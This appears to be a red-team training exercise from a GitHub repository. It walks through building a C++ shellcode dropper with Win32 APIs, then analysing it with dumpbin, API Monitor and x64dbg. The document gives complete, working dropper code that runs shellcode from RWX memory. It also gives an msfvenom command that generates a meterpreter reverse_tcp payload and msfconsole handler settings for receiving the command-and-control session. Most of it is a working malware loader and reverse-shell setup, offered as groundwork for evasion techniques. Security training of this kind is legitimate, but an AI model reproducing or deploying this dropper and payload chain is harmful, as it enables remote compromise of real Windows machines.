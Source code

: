 ## Exercise 1: Win32 API Dropper (High_Level_APIs)
In  **Exercise 1** we will create our first shellcode dropper based on **high level APIs** or **Win32 APIs**. This dropper will more or less be the reference for further development into a direct syscall and indirect syscall dropper. If you take a look at the illustration below, you will see that we are not using any direct syscalls or indirect syscalls at all. Instead we use the normal legitimate way like ``malware.exe -> Win32 APIs (kernel32.dll) -> Native APIs (ntdll.dll) -> syscall``.  
![_level_dropper_principal](https://user-images.githubusercontent.com/50073731/235367776-54229a66-f1d6-4b8e-a2a2-7bb81fecbf48.png)


## Exercise 1 tasks:
### Create High-Level-Dropper
1. Create a new C++ POC in Visual Studio 2019 and use the provided code for the High-Level-Dropper.
2. Create staged x64 meterpreter shellcode with msfvenom and copy it to the C++ High-Level-Dropper POC. 
3. Compile theHigh-Level-Dropper as release or debug x64. 
4. Create and run a staged x64 meterpreter listener with msfconsole.
5. Run your compiled .exe and verify that a stable command and control channel opens. 
### Analyse High-Level-Dropper
6. Use the Visual Studio tool **dumpbin** to analyze the compiled High-Level-Dropper. Is the result what you expected?  
7. Use the tool **API Monitor** to analyze the compiled High-Level-Dropper in the context of the four APIs used. Is the result what you expected? 
8. Use the debugger **x64dbg** to analyze the compiled High-Level-Dropper: from which module and location are the syscalls from the four APIs used being executed? Is the result what you expected?


## Visual Studio 
The POC can be created as a new C++ project (Console Application) in Visual Studio by following the steps below. 
<details>
<p align="center">
<img width="652" alt="image" src="https://user-images.githubusercontent.com/50073731/235356344-c14f9123-751c-462c-a610-50c7156f93f9.png">
</p>

The easiest way is to create a new console app project and then replace the default hello world text in main.cpp with your code. 

<p align="center">
<img width="640" alt="image" src="https://user-images.githubusercontent.com/50073731/235357092-5fd2e873-6732-4b37-a69d-38a281953b2e.png">
<img width="645" alt="image" src="https://user-images.githubusercontent.com/50073731/235357228-940ec56c-7565-44b8-8b6a-01a74ab15e1d.png">
</p>
</details>


The technical functionality of the High-Level-Dropper is relatively simple and therefore, in my opinion, perfectly suited to gradually develop the High-Level-Dropper into a low-level dropper using direct system calls. In the High-Level-Dropper we use the following Windows APIs: 
- VirtualAlloc
- WriteProcessMemory
- CreateThread
- WaitForSingleObject

The code works like this. First, we need to define the thread function for shellcode execution later in the code.
<details>
    
```
// Define the thread function for executing shellcode
// This function will be executed in a separate thread created later in the main function
DWORD WINAPI ExecuteShellcode(LPVOID lpParam) {
    // Create a function pointer called 'shellcode' and initialize it with the address of the shellcode
    void (*shellcode)() = (void (*)())lpParam;

    // Call the shellcode function using the function pointer
    shellcode();

    // Return 0 as the thread exit code
    return 0;
}
```
 </details> 
 
 
Within the main function, the variable **code** is defined, which is responsible for storing the meterpreter shellcode. The content of "code" is stored in the .text (code) section of the PE structure or, if the shellcode is larger than 255 bytes, the shellcode is stored in the .rdata section.
<details>
    
```
// Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83";
```
</details>

    
The next code block defines the function pointer **void***, which points to the variable **exec** and stores the return address of the allocated memory using the Windows API VirtualAlloc.
<details>
    
```
// Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = VirtualAlloc(0, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);
```
 </details>   


The meterpreter shellcode is then copied to the allocated memory using the Windows API **WriteProcessMemory**.
<details>

```
// Copy the shellcode into the allocated memory region using WriteProcessMemory
    SIZE_T bytesWritten;
    WriteProcessMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);
```
</details>
    

Next, the Windows API **CreateThread** is used to execute the meterpreter shellcode. This is done by creating a new thread.<p align="center">
<details>
    
```
// Create a new thread to execute the shellcode
    // Pass the address of the ExecuteShellcode function as the thread function, and 'exec' as its parameter
    // The returned handle of the created thread is stored in hThread
    HANDLE hThread = CreateThread(NULL, 0, ExecuteShellcode, exec, 0, NULL); 
```
</details>

    
And by using the Windows API **WaitForSingleObject** we need to make sure that the shellcode thread completes its execution before the main thread exits.
<details>  
    
```
// Wait for the shellcode execution thread to finish executing
    // This ensures the main thread doesn't exit before the shellcode has finished running
    WaitForSingleObject(hThread, INFINITE);    
```
</details>    

    
Here is the **complete code**, and you can copy and paste this code into your **High-Level-Dropper** project in Visual Studio.
You can also download the complete **High-Level-Dropper Visual Studio project** in the **Code Example section** of this repository.
<details>
    
```
#include <stdio.h>
#include <windows.h>

// Define the thread function for executing shellcode
// This function will be executed in a separate thread created later in the main function
DWORD WINAPI ExecuteShellcode(LPVOID lpParam) {
    // Create a function pointer called 'shellcode' and initialize it with the address of the shellcode
    void (*shellcode)() = (void (*)())lpParam;

    // Call the shellcode function using the function pointer
    shellcode();

    // Return 0 as the thread exit code
    return 0;
}

int main() {
    // Insert the Meterpreter shellcode as an array of unsigned chars (replace the placeholder with actual shellcode)
    unsigned char code[] = "\xfc\x48\x83...";

    // Allocate Virtual Memory with PAGE_EXECUTE_READWRITE permissions to store the shellcode
    // 'exec' will hold the base address of the allocated memory region
    void* exec = VirtualAlloc(0, sizeof(code), MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // Copy the shellcode into the allocated memory region using WriteProcessMemory
    SIZE_T bytesWritten;
    WriteProcessMemory(GetCurrentProcess(), exec, code, sizeof(code), &bytesWritten);

    // Create a new thread to execute the shellcode
    // Pass the address of the ExecuteShellcode function as the thread function, and 'exec' as its parameter
    // The returned handle of the created thread is stored in hThread
    HANDLE hThread = CreateThread(NULL, 0, ExecuteShellcode, exec, 0, NULL);

    // Wait for the shellcode execution thread to finish executing
    // This ensures the main thread doesn't exit before the shellcode has finished running
    WaitForSingleObject(hThread, INFINITE);

    // Return 0 as the main function exit code
    return 0;
}
```
</details>

    
## Meterpreter Shellcode
In this step, we will create our meterpreter shellcode for the High-Level-Dropper poc with msfvenom in Kali Linux. To do this, we will use the following command and create x64 staged meterpreter shellcode.
<details>
    
**kali>**       
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IPv4_Redirector_or_IPv4_Kali LPORT=80 -f c > /tmp/shellcode.txt
```
<p align="center">
<img width="696" alt="image" src="https://user-images.githubusercontent.com/50073731/235358025-7267f8c6-918e-44e9-b767-90dbd9afd8da.png">
</p>
    
The shellcode can then be copied into the High-Level-Dropper poc by replacing the placeholder at the unsigned char, and the poc can be compiled as an x64 release.
<p align="center">
<img width="479" alt="image" src="https://user-images.githubusercontent.com/50073731/235414557-d236582b-5bab-4754-bd12-5f7817660c3a.png">
</p>
</details>
    

## MSF-Listener
Before we test the functionality of our High-Level-Dropper, we need to create a listener within msfconsole.
<details>
    
**kali>**
```
msfconsole
```
**msf>**
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost IPv4_Redirector_or_IPv4_Kali
set lport 80 
set exitonsession false
run
```
<p align="center">
<img width="510" alt="image" src="https://user-images.githubusercontent.com/50073731/235358630-09f70617-5f6e-4f17-b366-131f8efe19d7.png">
</p>
</details>
 
    
Once the listener has been successfully started, you can run your compiled high_level_dropper.exe. If all goes well, you should see an incoming command and control session 
<details>
    
<p align="center">
<img width="674" alt="image" src="https://user-images.githubusercontent.com/50073731/235369228-84576762-b3b0-4cf7-a265-538995d42c40.png">
</p>
</details>


## High-Level-Dropper analysis: dumpbin
The Visual Studio tool dumpbin can be used to check which Windows APIs are imported via kernel32.dll. The following command can be used to check the imports. Which results do you expect?
<details>
    
**cmd>**  
```
cd C:\Program Files (x86)\Microsoft Visual Studio\2019\Community
dumpbin /imports high_level.exe
```
</details>
    
<details>
    <summary>Solution</summary>   
In the case of the High-Level-Dropper, you should see that the Windows APIs VirtualAlloc, WriteProcessMemory, CreateThread and WaitForSingleObject are correctly imported into the High-Level-Dropper from the kernel32.dll.
<p align="center">
<img width="693" alt="image" src="https://user-images.githubusercontent.com/50073731/235369396-dbad1178-e9a2-4c55-8c6a-fdc9362d864c.png">
</p>
</details>

    
## High-Level-Dropper analysis: API-Monitor
We use API Monitor to check the transition from the four used Windows APIs to the four corresponding native APIs.
For a correct check, it is necessary to filter to the correct APIs. Only by providing the correct Windows APIs and corresponding native APIs, which can prove the transition from Windows APIs (kernel32.dll) to native APIs (ntdll.dll), in the context of the High-Level-Dropper, we filter on the following API calls. Which results do you expect?
- VirtualAlloc
- NtAllocateVirtualMemory
- WriteProcessMemory
- NtWriteVirtualMemory
- CreateThread
- NtCreateThreadEx
- WaitForSingleObject
- NtWaitForSingleObject



<details>
    <summary>Solution</summary> 
If everything was done correctly, you should see clean transitions from the Windows APIs used to the native APIs we used in our High-Level-Dropper POC.
<p align="center">
<img width="498" alt="image" src="https://user-images.githubusercontent.com/50073731/235368737-9f87f5de-0a7e-4039-b454-2af23914b277.png">
</p>
</details>

    
## High-Level-Dropper analysis: x64dbg 
Using x64dbg we want to validate from which module and location the respective system calls are executed in the context of the used Windows APIs -> native APIs?
Remember, so far we have not implemented any native APIs or system calls or system call stubs directly in the dropper. What results would you expect?
<details>
    <summary>Solution</summary>
    
1. Open or load your High-Level-Dropper.exe into x64dbg
2. Go to the Symbols tab, in the **left pane** in the **Modules column** select or highlight **ntdll.dll**, in the **right pane** in the **Symbols column** filter for the first native API **NtAllocateVirtualMemory**, right click and **"Follow in Dissassembler"**. To validate the other three native APIs, NtWriteVirtualMemory, NtCreateThreadEx and NtWaitForSingleObject, just **repeat this procedure**. 
    
<p align="center">    
<img width="867" alt="image" src="https://user-images.githubusercontent.com/50073731/235445644-240e5c3b-a3cf-4a7a-99be-27412e2dcb82.png">
</p>
    
As expected, we can observe that the corresponding system calls for the native APIs NtAllocateVirtualMemory, NtWriteVirtualMemory, NtCreateThreadEx, NtWaitForSingleObject are correctly executed/imported from the .text section in the ntdll.dll module. This investigation is very important because later in the direct syscall exercise we expect a different result with the low level dropper and want to match it.
    
<p align="center">    
<img width="686" alt="image" src="https://user-images.githubusercontent.com/50073731/235445865-c3fe83fa-1539-4ff3-b850-96cc91a0a01d.png">
</p>    
</details>

    
## Summary: High-level API Dropper
- No direct system calls at all
- Syscall execution over normal transition from high_level_dropper.exe -> kernel32.dll -> ntdll.dll -> syscall
- Dropper imports VirtualAlloc from kernel32.dll...
- ...then imports NtAllocateVirtualMemory from ntdll.dll...
- ...and finally executes the corresponding syscall or syscall stub

